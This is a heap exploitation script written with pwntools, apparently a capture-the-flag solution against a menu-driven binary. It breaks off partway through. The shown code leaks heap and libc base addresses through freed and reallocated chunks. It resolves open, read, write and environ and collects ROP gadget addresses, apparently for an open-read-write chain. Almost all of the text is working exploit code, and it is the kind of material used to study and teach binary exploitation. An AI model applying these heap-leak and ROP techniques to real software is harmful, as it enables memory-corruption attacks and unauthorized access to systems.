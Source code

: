 ```python
libc = ELF(libc, checksec=False)

def add(idx, size, data):
    p.sendlineafter("command: ","C")
    p.sendlineafter("index: ", str(idx))
    p.sendlineafter("string: ", str(size))
    p.sendafter(" string: ", data)
def free(idx):
    p.sendlineafter("command: ","F")        
    p.sendlineafter("index: ", str(idx))
def show(idx):
    p.sendlineafter("command: ","R")        
    p.sendlineafter("index: ", str(idx))
def edit(idx, data):   
    p.sendlineafter("command: ","W")        
    p.sendlineafter("index: ", str(idx))     
    p.sendlineafter(" string: ", data)
def get_leak(size): 
    p.recvuntil("bytes\n ")
    buf = p.recvuntil("\n", drop=True).split(" ")
    value = 0
    for i in range(size):
        value += (int(buf[i], 16)<<(8*i))
    return value
    # print("value = " + hex(value))
        
add(0, 0x500, "a"*0x18)
add(1, 0x500, "a"*0x18)
add(2, 0x500, "a"*0x18)
free(0)
free(1)
add(0, 0x500, 'A')
add(1, 0x500, 'A')
show(0)
p.recvuntil("bytes\n ")
p.recvuntil("00 00 ")
buf = p.recvuntil("\n", drop=True).split(" ")
heapbase = 0
for i in range(8):
    heapbase += (int(buf[i], 16)<<(8*i))
heapbase = heapbase - 0x1c00
leak("heapbase", heapbase)
# pause()
show(1)
p.recvuntil("bytes\n ")
buf = p.recvuntil("\n", drop=True).split(" ")
libcbase = 0
for i in range(8):
    libcbase += (int(buf[i], 16)<<(8*i))
libcbase = libcbase - 0x1f4c41
leak("libc base", libcbase)

open_addr = libcbase + libc.sym['open']
read_addr = libcbase + libc.sym['read']
write_addr = libcbase + libc.sym['write']
environ = libcbase + libc.sym['environ']
pop_rdi = libcbase + 0x000000000002d7dd
pop_rsi = libcbase + 0x000000000002eef9
pop_rdx = libcbase + 0x00000000000d9c2d

add(0, 0x18, "0"*0x18)
add(1, 0x28, "1"*0x18)
free(0)
```